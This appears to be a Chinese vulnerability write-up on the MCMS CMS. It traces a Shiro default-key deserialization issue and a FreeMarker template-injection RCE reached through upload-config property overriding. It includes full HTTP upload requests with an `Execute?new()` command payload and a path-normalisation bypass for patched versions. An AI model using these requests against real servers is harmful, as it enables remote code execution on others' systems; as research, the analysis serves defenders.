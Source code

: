 
# [](#%E5%8F%88%E5%8F%88%E5%8F%88%E6%98%AF%E4%B8%80%E4%B8%AA%E5%B1%9E%E6%80%A7%E8%A6%86%E7%9B%96%E5%B8%A6%E6%9D%A5%E7%9A%84%E6%BC%8F%E6%B4%9E "又又又是一个属性覆盖带来的漏洞")又又又是一个属性覆盖带来的漏洞

想到最近出了好几个与属性覆盖有关的漏洞，突然想到有一个国产系统也曾经出过这类问题，比较有趣这里简单分享一下，希望把一些东西串起来分享方便学到一些东西

## [](#%E5%89%8D%E5%90%8E%E7%AB%AF%E6%A1%86%E6%9E%B6%E4%BF%A1%E6%81%AF%E6%A2%B3%E7%90%86 "前后端框架信息梳理")前后端框架信息梳理

首先简单从官网可以看出所使用的框架信息以及技术选型

[https://gitee.com/mingSoft/MCMS?\_from=gitee\_search](https://gitee.com/mingSoft/MCMS?_from=gitee_search)

我们主要关注几个点一个是 shiro，一个是 freemarker，还有就是具体的一些未鉴权的功能点，同时支持两种部署方式 jar/war

关于路由的说明，在启动类当中，指出了扫描的包名前缀为 net.mingsoft

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>@SpringBootApplication(scanBasePackages = {"net.mingsoft"})<br>@MapperScan(basePackages={"**.dao","com.baomidou.**.mapper"})<br>@ServletComponentScan(basePackages = {"net.mingsoft"})<br>public class MSApplication {<br>	public static void main(String[] args) {<br>		SpringApplication.run(MSApplication.class, args);<br>	}<br>}<br>``` |

因此与路由相关函数只会出现在三个地方

1.  源目录下
2.  ms-basic 依赖包下
3.  ms-mdiy 依赖包下

这个系统曾出现过很多漏洞，各类后台文件上传利用，注入、任意文件删除等等，但其实都比较鸡肋不适合学习

## [](#Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E7%89%88%E6%9C%AC-lt-5-2-8 "Shiro反序列化(版本<=5.2.8 )")Shiro 反序列化 (版本<=5.2.8 )

在开始前先简单我们知道 shiro 的版本高低只是加密方式的改变，实际上反序列化漏洞依然存在，如果系统使用了默认的 key 那也是存在潜在风险的，而恰好在 MCMS<=5.2.8 版本下都使用了默认的 key，使用这个 key 生成 payload，直接打 CB 链即可![image-20231228213327055](assets/1704158399-71f9647455d0bde0cbe904cbb4f0407b.png)

接下来我们重点看另一个漏洞

## [](#%E5%89%8D%E5%8F%B0%E6%A8%A1%E6%9D%BFSSTIRCE%E5%88%A9%E7%94%A8%E5%8F%B2 "前台模板SSTIRCE利用史")前台模板 SSTIRCE 利用史

接下来我们看另一个漏洞，和模板相关的漏洞

因为这里的模板渲染使用了`freemarker`，我们便有两个思路：

1.  版本是否在漏洞版本
2.  写法是否安全

在 MCMS 中关于模板的渲染处理，是通过封装了一个工具类做的处理，在依赖包`ms-mdiy`中的`net.mingsoft.mdiy.util.ParserUtil#rendering`做处理

MCMS 是在 5.1 版本开始使用`freemarker`做模板渲染，并且版本一直没有改变过，传家宝`"2.3.31"`

对于 freemarker 的模板，通常是通过 api 与 new 进行的利用，当然也有利用限制

对于内置函数 api

`api_builtin_enabled`为`true`时才可使用 api 函数，而该配置在 2.3.22 版本之后默认为`false`

对于内置函数 new

从 2.3.17 版本以后，官方版本提供了三种 TemplateClassResolver 对类进行解析：

1、UNRESTRICTED\_RESOLVER：可以通过 `ClassUtil.forName(className)`获取任何类。

2、SAFER\_RESOLVER：不能加载`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类。

3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。

可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过 new() 函数对`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类的解析

尽管 MCMS 的漏洞版本比较高，但是他在 5.8 版本以下并未对内置函数 new 做严格限制，具体我们可以看看`net.mingsoft.mdiy.util.ParserUtil#rendering`

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```plain<br>public static String rendering(Map root, String content) throws IOException, TemplateException {<br>    Configuration cfg = new Configuration(Configuration.VERSION_2_3_0);<br>    StringTemplateLoader stringLoader = new StringTemplateLoader();<br>    stringLoader.putTemplate("template", content);<br>    cfg.setNumberFormat("#");<br>    cfg.setTemplateLoader(stringLoader);<br>    Template template = cfg.getTemplate("template", "utf-8");<br>    StringWriter writer = new StringWriter();<br>    template.process(root, writer);<br>    return writer.toString();<br>}<br>``` |

虽然在 freemarker 版本在较安全的版本，但并未配置 new-builtin-class-resolver，因此接下来我们只需要找到调用的点即可

在高版本后 5.2.9，开发者终于意识到这个问题，设置了`cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);`

回到正题，这里我们先从较低的版本说起，以 5.2.5 来做例子

### [](#V-lt-5-2-5 "V<=5.2.5")V<=5.2.5

首先是一个能任意控制模板渲染的函数

这个路由非常好找，就在源码路径下为数不多不是 CRUD 功能的类中`net.mingsoft.cms.action.web.MCmsAction#search`

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>``` | ```plain<br>/**<br>     * 实现前端页面的文章搜索<br>     *<br>     * @param request  搜索id<br>     * @param response<br>     */<br>    @RequestMapping(value = "search",method = {RequestMethod.GET, RequestMethod.POST})<br>    @ResponseBody<br>    public String search(HttpServletRequest request, HttpServletResponse response) {<br>        String search = BasicUtil.getString("tmpl", "search.htm");<br>				............<br>        //解析后的内容<br>        String content = "";<br>        try {<br>            //根据模板路径，参数生成<br>            content = ParserUtil.rendering(search, params);<br>        } catch (TemplateNotFoundException e) {<br>            e.printStackTrace();<br>        } catch (MalformedTemplateNameException e) {<br>            e.printStackTrace();<br>        } catch (ParseException e) {<br>            e.printStackTrace();<br>        } catch (IOException e) {<br>            e.printStackTrace();<br>        }<br>        return content;<br>    }<br>``` |

可以这里通过`tmpl`参数能实现渲染文件的完全控制，但是

在`ParserUtil.getPageSize(search, 20)`当中我们会发现，其读取文件过程中使用了`hutool`的`FileUtil.file`,在这个第三方工具类使用了 checkSlip 防止目录穿越，因此非常可惜我们现在能渲染任意路径下的文件了

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```plain<br>public static File checkSlip(File parentFile, File file) throws IllegalArgumentException {<br>    if (null != parentFile && null != file) {<br>        String parentCanonicalPath;<br>        String canonicalPath;<br>        try {<br>            parentCanonicalPath = parentFile.getCanonicalPath();<br>            canonicalPath = file.getCanonicalPath();<br>        } catch (IOException var5) {<br>            throw new IORuntimeException(var5);<br>        }<br><br>        if (!canonicalPath.startsWith(parentCanonicalPath)) {<br>            throw new IllegalArgumentException("New file is outside of the parent dir: " + file.getName());<br>        }<br>    }<br><br>    return file;<br>}<br>``` |

那要想实现，那必须找到一个能够控制任意路径上传，或者能够配合目录穿越跳转的上传点，这个系统中正好就有，在`net.mingsoft.basic.action.web.EditorAction#editor`中，参数传入后交给了`MsUeditorActionEnter`类继续处理

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String rootPath = BasicUtil.getRealPath("");<br>    File saveFloder = new File(this.uploadFloderPath);<br>    if (saveFloder.isAbsolute()) {<br>        rootPath = saveFloder.getPath();<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "");<br>    } else {<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + this.uploadFloderPath);<br>    }<br><br>    String json = (new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""))).exec();<br>    if (saveFloder.isAbsolute()) {<br>        Map data = (Map)JSON.parse(json);<br>        data.put("url", this.uploadMapping.replace("/**", "") + data.get("url"));<br>        return JSON.toJSONString(data);<br>    } else {<br>        return json;<br>    }<br>}<br><br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

在初始化过程中，先初始化了父类，这里可以看到，`actionType`受我们传入的参数控制，这个参数决定了方法的调用

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```plain<br>public ActionEnter(HttpServletRequest request, String rootPath) {<br>    this.request = request;<br>    this.rootPath = rootPath;<br>    this.actionType = request.getParameter("action");<br>    this.contextPath = request.getContextPath();<br>    this.configManager = ConfigManager.getInstance(this.rootPath, this.contextPath, request.getRequestURI());<br>}<br>``` |

接下来回到`MsUeditorActionEnter`构造函数处理过程，紧接着调用了`this.getConfigManager()`初始化一些上传配置，而这个配置来源于文件`static/plugins/ueditor/1.4.3.3/jsp/config.json`，这个配置文件对上传做了限制，包括保存文件路径模板、大小、允许的后缀等，感兴趣的可以自己看看这个初始化过程，因为不太关键这里就不多叙述

在这里可以看到存在一个参数覆盖的问题 (jsonConfig 来源于 web 参数)，可以由自定义的输入覆盖默认配置，具体覆盖什么配置待会儿会说

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```plain<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

接下来初始化后调用 exec 方法，这里 callback 是否传入对我们不是很重要，继续看 invoke 方法

根据我们之前传入的 actionType 决定走入哪个分支

可以看到一共有 8 种类型，对应了不同的漏洞点，因为我们`只关心RCE`，所以这里就以上传为例，选择 uploadfile

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>this.put("config", 0);<br>this.put("uploadimage", 1);<br>this.put("uploadscrawl", 2);<br>this.put("uploadvideo", 3);<br>this.put("uploadfile", 4);<br>this.put("catchimage", 5);<br>this.put("listfile", 6);<br>this.put("listimage", 7);<br>``` |

在之后调用`(new Uploader(this.request, conf)).doExec()`做处理，这里的参数走向我们同样不在乎随便选择一个即可

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```plain<br>public final State doExec() {<br>    String filedName = (String)this.conf.get("fieldName");<br>    State state = null;<br>    if ("true".equals(this.conf.get("isBase64"))) {<br>        state = Base64Uploader.save(this.request.getParameter(filedName), this.conf);<br>    } else {<br>        state = BinaryUploader.save(this.request, this.conf);<br>    }<br><br>    return state;<br>}<br>``` |

省略其中的不关键的部分，这里我们只需要关注最终保存路径的生成即可

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```plain<br>...<br>String savePath = (String)conf.get("savePath");<br>String originFileName = fileStream.getName();<br>String suffix = FileType.getSuffixByFilename(originFileName);<br>originFileName = originFileName.substring(0, originFileName.length() - suffix.length());<br>savePath = savePath + suffix;<br>long maxSize = (Long)conf.get("maxSize");<br>if (!validType(suffix, (String[])((String[])conf.get("allowFiles")))) {<br>    return new BaseState(false, 8);<br>} else {<br>    savePath = PathFormat.parse(savePath, originFileName);<br>    String physicalPath = (String)conf.get("rootPath") + savePath;<br>    InputStream is = fileStream.openStream();<br>    State storageState = StorageManager.saveFileByInputStream(is, physicalPath, maxSize);<br>    is.close();<br>    if (storageState.isSuccess()) {<br>        storageState.putInfo("url", PathFormat.format(savePath));<br>        storageState.putInfo("type", suffix);<br>        storageState.putInfo("original", originFileName + suffix);<br>    }<br>}<br>...<br>``` |

1.  从配置获取保存的路径
2.  从 Multipart 解析文件后缀拼接
3.  使用 PathFormat.parse 处理替换模板标签内容
4.  与根路径拼接并写入文件

在`com.baidu.ueditor.PathFormat#parse`的处理过程当中会对 filename 中字符做替换，导致`/`字符丢失因此不能从 filename 控制路径的穿越

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>``` |

因此我们只能通过控制`savePath`实现完整的路径控制 (还记得么，上面一开始提到过可以做参数覆盖)，对于我们的 uploadfile 的 action，对应的 savepath 属性为 filePathFormat，因此构造，当然也可以覆盖其他属性参数这里不重复

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```plain<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={{url({filePathFormat:'/template/1/default/2'})}}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8079<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-2-8 "V<=5.2.8")V<=5.2.8

接下来我们看看开发是如何修复这个问题的，这里我的环境是 5.2.8，这一次开发意识到了问题所在，做了两个步骤的修复

1.  rootPath 由程序控制在必须为 upload 目录下
2.  对每一个路径配置做了一次路径归一化

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFloderPath = MSProperties.upload.path;<br>    String rootPath = BasicUtil.getRealPath(uploadFloderPath);<br>    jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFloderPath);<br>    Map<String, Object> map = (Map)JSONObject.parse(jsonConfig);<br>    String imagePathFormat = (String)map.get("imagePathFormat");<br>    imagePathFormat = FileUtil.normalize(imagePathFormat);<br>    String filePathFormat = (String)map.get("filePathFormat");<br>    filePathFormat = FileUtil.normalize(filePathFormat);<br>    String videoPathFormat = (String)map.get("videoPathFormat");<br>    videoPathFormat = FileUtil.normalize(videoPathFormat);<br>    map.put("imagePathFormat", imagePathFormat);<br>    map.put("filePathFormat", filePathFormat);<br>    map.put("videoPathFormat", videoPathFormat);<br>    jsonConfig = JSONObject.toJSONString(map);<br>    MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>    String json = actionEnter.exec();<br>    Map jsonMap = (Map)JSON.parseObject(json, Map.class);<br>    jsonMap.put("url", "/".concat(uploadFloderPath).concat(jsonMap.get("url") + ""));<br>    return JSONObject.toJSONString(jsonMap);<br>}<br>``` |

那是不是就没办法了呢？请独立思考三分钟

之前提到了在`PathFormat.parse`当中，有对最终路径当中的模板做替换 (当然这里和老版本的逻辑不一样，简化了很多，分析时以当前版本为准，有兴趣可以看看老版)，可以看到会取{xxx}中的内容，之后调用 getString 做替换

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```plain<br>public static String parse(String input, String filename) {<br>    Pattern pattern = Pattern.compile("\\{([^\\}]+)\\}", 2);<br>    Matcher matcher = pattern.matcher(input);<br>    String matchStr = null;<br>    currentDate = new Date();<br>    StringBuffer sb = new StringBuffer();<br><br>    while(matcher.find()) {<br>        matchStr = matcher.group(1);<br>        if (matchStr.indexOf("filename") != -1) {<br>            filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>            matcher.appendReplacement(sb, filename);<br>        } else {<br>            matcher.appendReplacement(sb, getString(matchStr));<br>        }<br>    }<br><br>    matcher.appendTail(sb);<br>    return sb.toString();<br>}<br>``` |

可以看到如果字符不在当前的 case 当中会直接返回

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```plain<br>private static String getString(String pattern) {<br>    pattern = pattern.toLowerCase();<br>    if (pattern.indexOf("time") != -1) {<br>        return getTimestamp();<br>    } else if (pattern.indexOf("yyyy") != -1) {<br>        return getFullYear();<br>    } else if (pattern.indexOf("yy") != -1) {<br>        return getYear();<br>    } else if (pattern.indexOf("mm") != -1) {<br>        return getMonth();<br>    } else if (pattern.indexOf("dd") != -1) {<br>        return getDay();<br>    } else if (pattern.indexOf("hh") != -1) {<br>        return getHour();<br>    } else if (pattern.indexOf("ii") != -1) {<br>        return getMinute();<br>    } else if (pattern.indexOf("ss") != -1) {<br>        return getSecond();<br>    } else {<br>        return pattern.indexOf("rand") != -1 ? getRandom(pattern) : pattern;<br>    }<br>}<br>``` |

有了这个思路我们便可以构造如下 payload 绕过校验

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```plain<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={filePathFormat:'/{.}./template/1/default/2'}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8080<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-3-5-%E7%9B%AE%E5%89%8D%E6%9C%80%E6%96%B0%E7%89%88 "V<=5.3.5(目前最新版)")V<=5.3.5(目前最新版)

首先来看最新版做了哪些变动

1.  在最外层做了 jsonConfig 判断内容 (似乎也没修复什么)

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFolderPath = MSProperties.upload.path;<br>    boolean enableWeb = MSProperties.upload.enableWeb;<br>    if (!enableWeb) {<br>        HashMap<String, String> map = new HashMap();<br>        map.put("state", "front end upload is not enabled");<br>        return JSONUtil.toJsonStr(map);<br>    } else {<br>        String rootPath = BasicUtil.getRealPath(uploadFolderPath);<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFolderPath);<br>        Map<String, Object> map = (Map)JSONUtil.toBean(jsonConfig, Map.class);<br>        String imagePathFormat = (String)map.get("imagePathFormat");<br>        imagePathFormat = FileUtil.normalize(imagePathFormat);<br>        String filePathFormat = (String)map.get("filePathFormat");<br>        filePathFormat = FileUtil.normalize(filePathFormat);<br>        String videoPathFormat = (String)map.get("videoPathFormat");<br>        videoPathFormat = FileUtil.normalize(videoPathFormat);<br>        map.put("imagePathFormat", imagePathFormat);<br>        map.put("filePathFormat", filePathFormat);<br>        map.put("videoPathFormat", videoPathFormat);<br>        jsonConfig = JSONUtil.toJsonStr(map);<br>        if (jsonConfig == null \| !jsonConfig.contains("../") && !jsonConfig.contains("..\\")) {<br>            MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>            String json = actionEnter.exec();<br>            Map jsonMap = (Map)JSONUtil.toBean(json, Map.class);<br>            jsonMap.put("url", "/".concat(uploadFolderPath).concat(jsonMap.get("url") + ""));<br>            return JSONUtil.toJsonStr(jsonMap);<br>        } else {<br>            throw new BusinessException(BundleUtil.getString("net.mingsoft.base.resources.resources", "err.error", new String[]{BundleUtil.getString("net.mingsoft.basic.resources.resources", "file.path", new String[0])}));<br>        }<br>    }<br>}<br>``` |

2.  禁止通过属性覆盖修改允许的后缀 (我估计开发以为模板引擎必须要 htm 后缀才行了，忘记他自己写的函数是可以随意指定后缀了 2333)，以及文件读取相关属性

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```plain<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>        super(request, rootPath);<br>        if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>            this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>            ConfigManager config = this.getConfigManager();<br>            setValue(config, "rootPath", rootPath);<br>            JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>            _jsonConfig.remove("fileManagerAllowFiles");<br>            _jsonConfig.remove("imageManagerAllowFiles");<br>            _jsonConfig.remove("catcherAllowFiles");<br>            _jsonConfig.remove("imageAllowFiles");<br>            _jsonConfig.remove("fileAllowFiles");<br>            _jsonConfig.remove("videoAllowFiles");<br>            _jsonConfig.remove("imageManagerListPath");<br>            _jsonConfig.remove("fileManagerListPath");<br>            JSONObject jsonObject = config.getAllConfig();<br>            Iterator iterator = _jsonConfig.keys();<br><br>            while(iterator.hasNext()) {<br>                String key = (String)iterator.next();<br>                jsonObject.put(key, _jsonConfig.get(key));<br>            }<br><br>        }<br>    }<br>``` |

3.  引擎解析测

设置禁止加载任意类

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER)<br>``` |

但这样并不能完全修复问题，可以参考辅助学习 ([https://www.cnblogs.com/escape-w/p/17326592.html)，虽然这个项目不存在这些问题就是了](https://www.cnblogs.com/escape-w/p/17326592.html)%EF%BC%8C%E8%99%BD%E7%84%B6%E8%BF%99%E4%B8%AA%E9%A1%B9%E7%9B%AE%E4%B8%8D%E5%AD%98%E5%9C%A8%E8%BF%99%E4%BA%9B%E9%97%AE%E9%A2%98%E5%B0%B1%E6%98%AF%E4%BA%86)

那么如何才能 rce 呢？提示一下，我们知道此时文件上传其实仍然能够跨目录写的，那么只能从白名单中受限的后缀入手，发挥你的想象，这里就不直接给出答案了
